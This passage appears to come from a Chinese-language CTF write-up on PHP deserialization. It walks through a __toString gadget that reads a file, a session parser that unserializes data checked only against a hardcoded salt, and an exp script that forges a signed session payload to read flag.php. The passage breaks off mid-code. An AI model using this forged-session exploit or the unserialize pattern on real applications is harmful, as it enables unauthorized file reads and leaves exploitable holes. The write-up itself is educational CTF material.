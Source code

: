 有一个echo操作，那么我们全局搜索`__toString`。第93行：

```
class CardsPool`{`
    ……

    public function __toString()`{`
        return file_get_contents($this-&gt;file);
    `}`
`}`
```

pop链很明确，就看如何触发反序列化了。

第137行`Session::extract()`:

```
public function extract($session)`{`

        $sess_array = explode(".", $session);
        $data = base64_decode($sess_array[0]);
        $sign = base64_decode($sess_array[1]);

        if($sign === md5($data . self::secret_key))`{`
            $this-&gt;sessiondata = unserialize($data);
        `}`else`{`
            unset($this-&gt;sessiondata);
            die("go away! you hacker!");
        `}`
```

他会把session的`.`前面的内容反序列化，并且会做一个加盐的判断，但是密钥在103行已经给了

```
const SECRET_KEY = "7tH1PKviC9ncELTA1fPysf6NYq7z7IA9";
```

那么我们可以编写一个exp：

```
&lt;?php
class Eeeeeeevallllllll
`{`
    public $msg = 'a';

`}`

class CardsPool
`{`

    public $cards;
    private $file = 'flag.php';

`}`

$pop = new Eeeeeeevallllllll();
$pop-&gt;msg = new CardsPool();
//echo serialize($pop);
$key = "7tH1PKviC9ncELTA1fPysf6NYq7z7IA9";
$sign = md5(serialize($pop).$key);
$payload = base64_encode(serialize($pop)).'.'.base64_encode($sign);
echo $payload;
/*
$sess_array = explode(".", $payload);
$data = base64_decode($sess_array[0]);
echo $data,"\n";
$sign = base64_decode($sess_array[1]);
echo $sign,"\n";
if($sign === md5($data . $key))`{`
```